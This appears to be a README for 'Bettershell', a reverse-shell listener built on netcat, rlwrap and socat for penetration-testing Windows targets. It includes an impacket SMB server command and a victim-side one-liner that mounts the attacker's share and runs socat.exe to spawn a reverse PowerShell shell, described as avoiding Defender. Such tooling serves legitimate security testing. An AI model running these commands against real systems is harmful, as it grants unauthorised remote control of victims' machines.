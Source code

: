 Bettershell is a basic netcat client paired with rlwrap, socat, a large Powershell command wordlist, and bash scripting.

Using bettershell in place of a typical nc listener, you can catch Powershell reverse shells that don't die on ctrl+c, autocomplete based on wordlist entries and command output, use arrowkey movement to edit pasted commands without those annoying symbols, and reference a searchable command history. You also get an accurate path prompt, and there should be zero pointless command echo. Best of all, it's blue - is it really powershell if it isn't?

Bettershell can be used to catch any reverse shell from a Windows box. For stderr piping support, the included socat.exe binary can easily be executed on the victim from an SMB share.

To do so, open port 445, then start up an impacket SMB server on your attack box in the directory with socat.exe:
```
sudo smbserver.py SMB . -comment SMB -ts -debug -smb2support -username user -password pass
```
to get a reverse shell, execute the following on your victim box:
```
cmd.exe /c net use x: \\YOURIP\SMB /user:user pass & x:\socat.exe tcp-connect:$IP:$PORT exec:powershell.exe,pty,stderr
```
The above example shouldn't trigger Defender. Exclude authentication when attacking PCs that don't support it.
